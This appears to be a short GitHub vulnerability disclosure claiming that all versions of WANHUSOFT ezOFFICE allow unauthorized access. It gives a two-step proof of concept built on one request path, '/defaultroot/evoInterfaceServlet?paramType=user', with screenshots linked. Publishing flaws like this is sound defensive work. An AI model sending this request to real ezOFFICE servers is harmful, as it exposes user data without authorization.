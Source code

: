 # WANHUSOFT
WANHUSOFT ezOFFICE all version is susceptible to unauthorized access.

1.a url.
![QQ截图20230918215723](https://github.com/1234556789lj/WANHUSOFT/assets/118456270/4d3dfe14-c6fe-4037-9e3e-d434e8693595)
2.visit path "/defaultroot/evoInterfaceServlet?paramType=user"
![222](https://github.com/1234556789lj/WANHUSOFT/assets/118456270/b4a23585-aa53-4dae-b03c-9c5c0c8f4159)


